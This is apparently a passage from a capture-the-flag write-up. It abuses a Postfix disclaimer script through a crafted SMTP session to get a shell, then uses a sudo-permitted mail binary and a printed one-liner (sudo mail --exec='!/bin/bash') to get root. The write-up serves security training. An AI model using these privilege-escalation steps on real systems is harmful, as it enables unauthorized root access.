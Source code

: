 Reading through the article essentially we see that for any emails included in the file `/etc/postfix/disclaimer_addresses`. When any of these addresses send or recieve an email the following file gets executed `/etc/postfix/disclaimer`. The file takes the contents of `/etc/postfix/disclaimer.txt` and appends it to the emails.
```
helo test
MAIL FROM: it@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Shell please

.

QUIT
```

![[spaces_-MFlgUPYI8q83vG2IJpI_uploads_git-blob-b94b839fed1eed990531c038fbe5444047e4ecc6_image.webp]]

After doing so we should receive a shell
![[spaces_-MFlgUPYI8q83vG2IJpI_uploads_git-blob-ab40b7173d36671f6f6432b96e5b4b63d1bf5893_image.webp]]

From here I checked sudo permissions with `sudo -l` and found that we can run the `mail` binary as any user without a password.
![[spaces_-MFlgUPYI8q83vG2IJpI_uploads_git-blob-29fc3f7cde02ef9f0f157843cac83e9123f78593_image.webp]]

Referring to GTFOBins we can use this to gain a root shell.

![[spaces_-MFlgUPYI8q83vG2IJpI_uploads_git-blob-c476006b1c9f04bdf606bb3be7944b1171e233a1_image.webp]]

```
sudo mail --exec='!/bin/bash'
```

We then gain a root shell.